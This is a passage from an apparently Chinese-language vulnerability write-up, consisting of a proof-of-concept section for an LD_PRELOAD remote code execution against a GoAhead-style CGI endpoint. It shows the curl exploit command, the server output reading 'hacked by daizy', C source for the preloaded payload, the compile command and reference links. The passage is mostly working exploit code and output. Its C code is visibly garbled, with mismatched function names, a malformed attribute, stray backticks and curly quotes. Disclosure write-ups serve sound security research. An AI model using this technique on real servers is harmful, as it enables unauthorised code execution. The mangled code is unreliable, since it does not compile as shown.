 
## 3. POC

```
daizy@daizy:~/workplace/CDemo$ curl -X POST —data-binary @payload.so http://172.20.94.98:8888/cgi-bin/cgi_test?LD_PRELOAD=/proc/self/fd/0 -i | head
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 8128 0 0 100 8128 0 7885 0:00:01 0:00:01 —:—:— 7891
curl: (18) transfer closed with outstanding read data remaining
HTTP/1.1 200 OK
Date: Thu Dec 28 12:33:37 2017
Transfer-Encoding: chunked
Connection: keep-alive
X-Frame-Options: SAMEORIGIN
Pragma: no-cache
Cache-Control: no-cache
hacked by daizy
```

其中payload.so是由以下代码编译获得：

```
#include &lt;unistd.h&gt;
static void beforemain(void) _attribute((constructor));
static void before_main(void)
`{`
write(1, “hacked by daizyn”,16);
`}`
```

编译命令：gcc -shared -fPIC payload.c -o payload.so<br>
其中标签属性:constructor,表示该函数由.init初始化时执行，也就是在cgi的扩展main函数之前会被执行。

## 4.参考文章

[https://www.elttam.com.au/blog/goahead/](https://www.elttam.com.au/blog/goahead/)<br>[https://www.cnblogs.com/net66/p/5609026.html](https://www.cnblogs.com/net66/p/5609026.html)
